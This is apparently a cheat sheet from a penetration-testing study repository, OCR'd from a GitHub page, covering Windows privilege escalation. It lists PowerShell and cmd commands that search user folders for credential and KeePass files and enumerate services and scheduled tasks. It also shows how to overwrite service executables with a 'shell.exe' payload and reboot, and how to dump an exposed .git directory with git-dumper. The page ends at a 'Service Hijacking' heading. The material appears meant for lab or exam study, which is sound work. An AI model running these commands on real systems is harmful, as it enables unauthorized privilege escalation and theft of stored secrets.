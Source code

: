 ### Enumeration Files | Services | Tasks

```jsx
Get-ChildItem Env: | ft Key,Value
```

```jsx
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini,*.kdbx,*.log -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```jsx
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

icacls "C:\Program Files\MilleGPG5\GPGService.exe"
stop-service GPGOrchestrator
copy shell.exe "C:\Program Files\MilleGPG5\GPGService.exe"
start-service GPGOrchestrator

sc.exe qc VeyonService
move veyon-service.exe veyon-service.bak
move shell64.exe veyon-service.exe
shutdown /r /t 0
```

```jsx
schtasks /query /fo LIST /v | Select-String -Pattern "TaskName:"
schtasks /query /fo LIST /v | Select-String -Pattern "Task To Run:"

schtasks /query /fo LIST /v /tn \Microsoft\CacheCleanup
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```

### Git

```jsx
gci -Recurse -Filter ".git" -Directory -ErrorAction SilentlyContinue -Path "C:\Users\"
```

```jsx
git clone https://github.com/arthaud/git-dumper.git
python -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
python git_dumper.py http://192.168.217.144/.git ~/Documents/oscpA/git144
```

```jsx
takeown /F <dir> /R
git log
git diff <commit hash>
```

### Service Hijacking
